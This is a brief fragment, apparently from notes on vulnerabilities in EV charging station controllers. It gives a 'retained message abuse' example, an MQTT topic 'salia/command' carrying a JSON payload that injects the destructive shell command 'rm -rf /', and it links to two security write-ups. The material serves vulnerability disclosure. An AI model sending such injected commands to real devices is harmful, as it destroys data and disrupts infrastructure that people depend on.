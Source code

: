 Retained Message Abuse Example:

  textTopic: salia/command
  Payload: {"cmd":"; rm -rf / ;"}

New links:

 * https://gbhackers.com/vulnerabilities-hardy-barth-ev-station/

 * https://www.onekey.com/resource/critical-vulnerabilities-in-ev-charging-stations-analysis-of-echarge-controllers

